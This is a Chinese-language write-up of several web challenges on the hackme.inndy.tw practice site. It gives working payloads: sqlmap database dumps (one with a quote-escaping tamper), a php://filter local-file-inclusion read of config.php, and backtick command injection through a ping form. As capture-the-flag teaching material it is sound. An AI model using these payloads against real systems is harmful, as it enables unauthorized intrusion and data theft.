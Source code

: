 # Web

## 12: hide and seek

在主页代码里面，搜索 FLAG 即可。

## 13: guestbook

> [sqlmap](http://sqlmap.org/) is your friend.

所以让我们的「好朋友」出场吧。

最终可以发现，`https://hackme.inndy.tw/gb/?mod=read&id=10` 中的 `id` 参数可以 SQL 注入。于是最终的 payload:

```shell
sqlmap -u "https://hackme.inndy.tw/gb/?mod=read&id=10" -p id --dbs -D g8 --dump
```

## 14: LFI

LFI 是什么？它是 Local File Inclusion（本地文件包含）的缩写。

可以观察到该题的 URL 如下：

```
https://hackme.inndy.tw/lfi/?page=pages/index
https://hackme.inndy.tw/lfi/?page=pages/intro
https://hackme.inndy.tw/lfi/?page=pages/login
https://hackme.inndy.tw/lfi/?page=pages/flag
```

因此可以猜测，`page` 参数可以会有文件包含漏洞。访问 `https://hackme.inndy.tw/lfi/?page=notfound`（不存在的文件）可以看到一个小彩蛋 233333。

直接访问 `https://hackme.inndy.tw/lfi/?page=pages/flag` 得不到任何东西。根据提示 `php://filter`，可以构造：

```
https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/flag
```

将得到的内容用 base64 解码，得到：

```php+HTML
Can you read the flag<?php require('config.php'); ?>?
```

emmm 那看看 `config.php` 里面是什么吧。Payload:

```
https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/config
```

解码后即可得到 flag。

## 15: homepage

主页中引用了 `https://hackme.inndy.tw/cute.js`，复制下来在控制台里运行然后扫码即可。

## 16: ping

源代码显示这个程序会对输入进行检测，然后执行 `ping`。我们的目标是命令执行，而不是真去  `ping`。PHP 中的 `exec()` 有点像 C 库的 `system()`，都是调用系统 shell 来执行命令，而不是直接去 `execve()`，所以我们可以在参数中加一点东西，让 shell 执行开发者意料之外的命令。有一些限制条件：

- 我们的 payload 不能超过 15 个字符。
- 一些特定的单词、符号不能够出现。

虽然很多常见的符号被过滤了，但是 `` ` `` 没有被过滤掉。

可以看看目录下面有什么：

```
`ls`
```

返回：

```
ping: unknown host flag.php
index.php
```

很明显，我们需要查看 `flag.php` 的内容，但是 `cat` 被过滤了。所以考虑用 `head` 或者 `tail` 来查看 flag.php。`flag` 被过滤了，但是可以用通配符。

Payload:

```
`tail f*`
```

## 17: scoreboard

记分板页面隐藏着怎样的秘密？查看源代码，没有发现什么有用的东西。转向网络请求，发现返回头的 `x-flag` 参数就是我们要的 flag。

## 18: login as admin 0

这里我们仍然尝试使用 `sqlmap`，但如果直接调用 `sqlmap`，会发现没有办法注入。

所以我们需要 tamper。`sqlmap` 内置的一些 tamper 可以在网络上查找到介绍，这里不再叙述。

源代码中「过滤请求」的部分如下：

```php
function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, 'or 1=1') || strstr($strl, 'drop') ||
        strstr($strl, 'update') || strstr($strl, 'delete')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}
```

可以注意到，虽然我们的请求字符串在转换为小写后中如果有 `or 1=1` 等字符串时整个请求会被清空，但是其他被直接过滤的字符串会改变数据库的内容，但我们的注入不会（也不应该）改变数据库。所以最关键的部分是第九行，将 `'` 替换为 `\'` 这**两个字符**（不是替换成 `\\'` 三个字符！可以在 PHP 的 REPL 里面亲自试一下。），即尝试转义请求字符串中的 `'`。

但如果我们的输入是 `\'` 呢？在该函数过滤之后结果就是 `\\'`。可以发现，`\` 被转义了，但是 `'` 没有。

查找资料可以发现，`sqlmap` 自带的 tamper `escapequotes.py` 可以像这样转义引号。该 tamper 的核心代码：

```python
return payload.replace("'", "\\'").replace('"', '\\"')
```

同样，它将 `sqlmap` 产生的 payload 进行处理，将 `'` 替换为 `\'` （**两个**字符），将 `"` 替换为 `\"`。

所以照样用 `sqlmap`，加上 tamper 就可以了。

Payload:

```shell
sqlmap -u "https://hackme.inndy.tw/login0/" --data="name=admin&password=bbb" --dbms=MySQL --tamper="escapequotes" -p password --dbs -D login_as_admin0 --columns --dump
```

获得 admin 密码，登录即可。

